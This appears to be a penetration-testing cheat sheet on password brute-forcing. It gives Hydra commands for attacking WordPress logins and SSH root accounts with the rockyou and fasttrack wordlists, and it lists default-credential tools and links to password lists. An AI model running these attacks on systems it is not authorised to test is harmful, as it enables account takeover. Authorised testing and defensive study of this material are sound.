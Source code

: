 # Password Bruteforcing

## Hash identify

```
# https://github.com/noraj/haiti
haiti hash
```

## Test for default credentials

```
# https://github.com/ztgrace/changeme
./changeme.py example.com
```

```
# https://github.com/x90skysn3k/brutespray
See documentation
```

## Hydra

Hydra is a command-line tool for online password attacks, such as website login pages and ssh.

### General format for website attacks:

```
hydra -L <username list> -p <password list> [host] http-post-form "<path>:<form parameters>:<failed login message>"
```

### Wordpress

Attack WordPress login page with a known username, success parameter S= instead of failure parameter, verbose output:

```
hydra -l [username] -P /usr/share/wordlists/rockyou.txt [host] http-post-form "/wp-admin/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=http%3A%2F%2F[host]%2Fwp-admin%2F" -V
```

### SSH

```
# default
hydra -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# no standard port
hydra -s 22022 -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# with a username wordlist and ports
hydra -s 22022 -L userlist.txt -P /usr/share/wordlists/fasttrack.txt [host] ssh -t 4  -v
``` 



|URl|Description|
|---|---|
|https://nordpass.com/most-common-passwords-list/ | Most used password by nord vpn |
|https://github.com/ihebski/DefaultCreds-cheat-sheet| Default credentials for dozen of applications |
|https://cirt.net/passwords | Default credentials for dozen of applications |
|https://forum.ywhack.com/bountytips.php?password | Default credentials for dozen of applications |
|https://github.com/noraj/pass-station/ | Tool to search for creds|
| ## | ## |
|https://github.com/ignis-sec/Pwdb-Public| Mass list of passwords, based on data |
|https://bit.ly/3nFUfJG | Rockyou list 🤘 |
|https://github.com/1N3/IntruderPayloads| Lists used by burp |
